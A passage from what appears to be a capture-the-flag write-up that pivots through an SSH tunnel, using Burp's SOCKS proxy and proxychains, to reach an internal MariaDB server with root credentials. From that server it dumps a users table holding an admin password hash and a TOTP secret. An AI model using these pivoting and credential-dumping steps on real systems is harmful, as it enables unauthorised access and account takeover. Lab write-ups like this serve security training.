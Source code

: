 I’ll also configure a proxy in Burp, in the User Options –> Connections tab, under SOCKS Proxy:

![image-20210803093428048](https://0xdfimages.gitlab.io/img/image-20210803093428048.png)

Now any traffic going through Burp will then go through the SSH tunnel and then to its destination.

#### db

With creds to the DB, I’ll connect using `mysql` and `proxychains` from my host:

```

oxdf@parrot$ proxychains mysql -h 172.20.0.11 -u root -p2108@C00l static
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:9001-<><>-172.20.0.11:3306-<><>-OK
...[snip]...

MariaDB [static]>

```

There’s not a lot here. static is the only DB of interest, and there’s only one table with one row:

```

MariaDB [static]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| static             |
+--------------------+
4 rows in set (0.020 sec)

MariaDB [static]> show tables
    -> ;
+------------------+
| Tables_in_static |
+------------------+
| users            |
+------------------+
1 row in set (0.022 sec)

MariaDB [static]> select * from users;
+----+----------+------------------------------------------+------------------+
| id | username | password                                 | totp             |
+----+----------+------------------------------------------+------------------+
|  1 | admin    | d033e22ae348aeb5660fc2140aec35850c4da997 | orxxi4c7orxwwzlo |
+----+----------+------------------------------------------+------------------+
1 row in set (0.021 sec)

```
